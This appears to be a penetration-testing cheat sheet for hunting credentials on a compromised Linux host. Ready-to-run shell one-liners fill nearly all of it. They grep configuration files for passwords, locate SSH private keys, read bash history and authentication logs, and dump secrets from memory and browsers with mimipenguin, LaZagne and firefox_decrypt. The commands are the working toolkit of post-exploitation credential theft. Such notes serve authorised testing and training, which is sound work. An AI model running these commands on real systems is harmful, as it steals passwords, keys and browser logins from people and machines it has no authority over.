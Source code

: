 
Files
- Configs (.config, .conf, .cnf)
- Databases
- Notes
- Scripts
- Source codes
- Cronjobs
- SSH Keys
History
- Logs
- Command-line history
Memory
- Cache
- In-memory processing
Key-Rings
- Browser stored credentials

Configuration Files
```shell-session
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

Credentials in Configuration Files
```shell-session
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

Databases
```shell-session
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

Notes
```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

Scripts
```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

Cronjobs
```shell-session
cat /etc/crontab 
```
```shell-session
ls -la /etc/cron.*/
```

SSH Private Keys
```shell-session
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

SSH Public Keys
```shell-session
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

Bash history
```shell-session
tail -n5 /home/*/.bash*
```

Log Files
- /var/log/messages
- /var/log/syslog
- /var/log/auth.log
- /var/log/secure
- /var/log/boot.log
- /var/log/dmesg
- /var/log/kern.log
- /var/log/faillog
- /var/log/cron
- /var/log/mail.log
- /var/log/httpd
- /var/log/mysqld.log

Interesting content in logs
```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

Memory - Mimipenguin
https://github.com/huntergregal/mimipenguin
```shell-session
sudo python3 mimipenguin.py
```
```shell-session
sudo bash mimipenguin.sh 
```

Memory - Lazagne
```shell-session
sudo python2.7 laZagne.py all
```

Firefox Stored Credentials
https://github.com/unode/firefox_decrypt
```shell-session
ls -l .mozilla/firefox/ | grep default 
```
```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

Decrypting Firefox Credentials
```shell-session
python3.9 firefox_decrypt.py
```

Browsers - Lazagne
```shell-session
python3 laZagne.py browsers
```

